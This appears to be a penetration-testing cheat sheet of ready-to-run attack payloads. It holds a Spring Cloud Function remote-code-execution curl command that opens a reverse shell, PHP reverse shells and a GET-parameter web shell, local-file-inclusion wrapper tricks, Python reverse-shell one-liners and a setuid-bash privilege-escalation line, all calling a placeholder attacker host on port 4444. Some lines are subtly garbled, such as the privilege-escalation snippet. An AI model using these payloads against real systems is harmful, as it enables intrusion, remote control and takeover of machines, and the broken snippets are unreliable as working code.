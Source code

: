 JAVA Spring Boot cloud exploit and rev-shell:
---
```shell
curl -X POST [http://$TARGET_IP:8080/functionRouter](http://$TARGET_IP:8080/functionRouter) -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1")' --data-raw 'data' -v
```
Windows PHP rev shell
---
[https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

PHP Reverse shell LFI:
---
#php #rev-shell #reverse #rev 

or use system() exec() passthru() shell_exec()

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER_IP/4444 0>&1'");?>
```

```php
<?php $sock=fsockopen("$ATTACKER_IP",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>
```

```php
<?php exec($_GET['cmd']);?>
```

```bash
https://$TARGET_URL?page=$LFI
```
PHP Wrapper LFI payloads:
```text
zip://
rar://
zlib://
phar://
file://
```
and:
```text
$FILE.zIP/payload.php
$FILE.zIP#payload.php
$FILE.zIP%23payload.php
```
sources:
```url
https://medium.com/@omarwhadidi9/10-ways-to-get-rce-from-lfi-f2bb696b67f6
https://www.php.net/manual/en/wrappers.php
```
Python Rev shell
---
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Python Priv Esc
---
```python
pyimport os;os.system("chmod +s /bin/bash");f=function f2(){};
```
